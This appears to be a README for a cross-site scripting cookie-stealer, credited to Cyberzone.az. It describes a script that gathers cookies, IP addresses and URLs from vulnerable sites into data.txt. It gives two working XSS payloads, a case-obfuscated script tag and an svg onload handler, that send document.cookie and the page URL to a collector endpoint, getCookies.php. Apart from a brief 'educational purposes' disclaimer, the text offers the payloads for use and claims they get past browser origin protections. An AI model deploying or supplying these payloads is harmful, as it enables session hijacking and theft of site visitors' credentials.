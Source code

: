 <h2>For educational purposes only, use at your own responsibility.</h2>

<p>This script gets  all cookies, ip address and url from vulnerable site and stores it in data.txt.</p>
![Alt Text](https://cyberzone.az/assets/img/project/Screenshot_1.png)
<p>Here same payload examples for usage.</p>

<sCRiPt>new Image().src="https://localhost/getCookies.php?u="+document.location.href+"&c="+document.cookie;</sCRiPt>
<svgonload=setTimeout(function(a){a=document.createElement(`img`);a.src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;document.getElementsByTagName(`body`)[0].appendChild(a);},500);>


<p>These examples in above is written for bypassing cross site origin policy in all browsers but you can use your own payload instead.</p>

From: Cyberzone.az
